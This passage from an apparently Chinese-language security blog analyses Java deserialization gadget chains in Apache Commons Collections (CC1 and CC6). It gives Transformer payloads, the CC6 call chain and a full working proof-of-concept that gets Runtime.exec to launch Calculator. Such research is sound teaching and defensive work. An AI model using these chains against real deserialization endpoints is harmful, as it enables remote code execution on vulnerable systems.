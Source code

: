 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>};<br>``` |

但是，执行过后，发现仍然没有弹出计算器。

动态调试发现与 AnnotationInvocationHandler 类的逻辑有关，在 `AnnotationInvocationHandler:readObject` 的逻辑中，有一个 if 语句对 var7 进行判断，只有在其不是 null 的时候才会进入里面执行 setValue，否则不会进入也就不会触发漏洞。

那么如何让这个 var7 不为 null 呢？需要如下两个条件：

1.  `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 Annotation 的子类，且其中必须含有至少一个方法，假设方法名是 X
2.  被 TransformedMap.decorate 修饰的 Map 中必须有一个键名为 X 的元素

所以，前面的 payload 中用到了 `Retention.class` ，因为 Retention 有一个方法，名为 value。为了再满足第二个条件，需要给 Map 中放入一个 Key 是 value 的元素：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>innerMap.put("value","Geekby");<br>``` |

但是这个 Payload 有一定局限性，在 Java 8u71 以后的版本中，由于 `sun.reflect.annotation.AnnotationInvocationHandler` 发生了变化导致不再可用。

## [](#3-commonscollections-6-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 6 Gadget 分析

### [](#31-%E8%B0%83%E7%94%A8%E9%93%BE)3.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```fallback<br>java.io.ObjectInputStream.readObject()<br>    java.util.HashSet.readObject()<br>        java.util.HashMap.put()<br>        java.util.HashMap.hash()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()<br>                org.apache.commons.collections.map.LazyMap.get()<br>                    org.apache.commons.collections.functors.ChainedTransformer.transform()<br>                    org.apache.commons.collections.functors.InvokerTransformer.transform()<br>                    java.lang.reflect.Method.invoke()<br>                        java.lang.Runtime.exec()<br>``` |

### [](#32-poc)3.2 POC

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```java<br>public class Main {<br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br>        Transformer transformerChain = new ChainedTransformer(transformers);<br>        Map innerMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>        TiedMapEntry te = new TiedMapEntry(lazyMap, "poc");<br><br>        HashSet ht = new HashSet();<br>        ht.add(te);<br><br>        innerMap.remove("poc");<br><br>        Class c = LazyMap.class;<br>        Field f = c.getDeclaredField("factory");<br>        f.setAccessible(true);<br>        f.set(lazyMap, transformerChain);<br><br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(ht);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br><br>    }<br>}<br>``` |

### [](#33-%E5%88%86%E6%9E%90)3.3 分析

CommonsCollections 6 的 sink 链使用的依旧是 `InvokerTransformer` 反射接口，利用 `ChainedTransformer` 串联三次 `InvokerTransformer` 反射和 `ConstantTransformer` 接口，获取 Runtime 类。

在 `CommonsCollections 1` 中，通过交叉引用搜索到另外一个类 `LazyMap` 中的 `get` 方法调用了 `transform` 方法。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print](assets/1699411715-0c6f8cf6b9cc4a43dfeeeaecb33cde01.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print")

